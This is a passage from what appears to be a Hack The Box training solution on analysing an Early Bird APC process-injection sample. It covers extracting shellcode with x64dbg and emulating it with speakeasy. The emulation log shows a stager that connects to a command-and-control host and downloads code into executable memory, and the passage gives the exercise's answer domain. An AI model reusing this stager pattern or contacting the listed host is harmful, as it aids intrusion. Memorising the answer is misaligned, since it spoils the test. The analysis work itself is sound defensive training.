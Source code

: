 As students have found the `Early Bird APC Queue Injection` technique used in the sample, students will return to `x64dbg` and run the program until the `WriteProcessMemory` function is reached again since the technique utilizes the function. Note, students may be required to run until the second shellcode is loaded into memory, e.g., reaching the breakpoint on the third time.

![[HTB Solutions/Others/z. images/caaace5a04463479d5e3d1a4cd728211_MD5.jpg]]

Again, students will refer to the `x64 calling convention` and will focus on the `R8` register, right-click on it, and `Follow in Dump`:

![[HTB Solutions/Others/z. images/81be42c9ee3b832b962651432ac1feac_MD5.jpg]]

Students will select the `FC 48` bytes until the `FF D5` ending bytes, and right-click `Binary` > `Save To a File` to save the shellcode in a file on the Desktop:

![[HTB Solutions/Others/z. images/4ab8ef4a817693b4f902a364e687405a_MD5.jpg]]

![[HTB Solutions/Others/z. images/5b8e423495cdb59343088ff6f7aff153_MD5.jpg]]

Students will return to the previously spawned Command Prompt, and use `speakeasy` to analyze the shellcode and find the domain name used in the `InternetConnectA` function of the `wininet` library:

Code: cmd

```cmd
speakeasy -t second-shellcode.bin -r -a x64
```

```
C:\Users\Administrator\Desktop>speakeasy -t second-shellcode.bin -r -a x64

* exec: shellcode
0x10f3: 'kernel32.LoadLibraryA("wininet")' -> 0x7bc00000
0x1188: 'wininet.InternetOpenA("Mozilla/5.0 (Macintosh; Intel Mac OS X 14_7_2) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15", 0x0, 0x0, 0x0, 0x0)' -> 0x20
0x11bc: 'wininet.InternetConnectA(0x20, "{hidden}", 0x115c, 0x0, 0x0, 0x3, 0x0, 0x0)' -> 0x24
0x1215: 'wininet.HttpOpenRequestA(0x24, 0x0, "/hi1E4qUUT4BE8kXwI0EIDwtBzVqJHgRxTs15LzE6ratdYEPyI", 0x0, 0x0, 0x0, "INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_IGNORE_CERT_CN_INVALID | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_NO_AUTO_REDIRECT | INTERNET_FLAG_NO_COOKIES | INTERNET_FLAG_NO_UI | INTERNET_FLAG_RELOAD | INTERNET_FLAG_SECURE", 0x0)' -> 0x28
0x123a: 'wininet.InternetSetOptionA(0x28, 0x1f, 0x1203eb0, 0x4)' -> 0x1
0x1253: 'wininet.HttpSendRequestA(0x28, 0x0, 0x0, 0x0, 0x0)' -> 0x1
0x1294: 'kernel32.VirtualAlloc(0x0, 0x400000, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x450000
0x12b7: 'wininet.InternetReadFile(0x28, 0x450000, 0x2000, 0x1203e30)' -> 0x1
0x12b7: 'wininet.InternetReadFile(0x28, 0x451000, 0x2000, 0x1203e30)' -> 0x1
0x450012: Unhandled interrupt: intnum=0x3
0x450012: shellcode: Caught error: unhandled_interrupt
* Finished emulating
```

Answer: `airbusocean.com`

# Process Injection - Skills Assessment
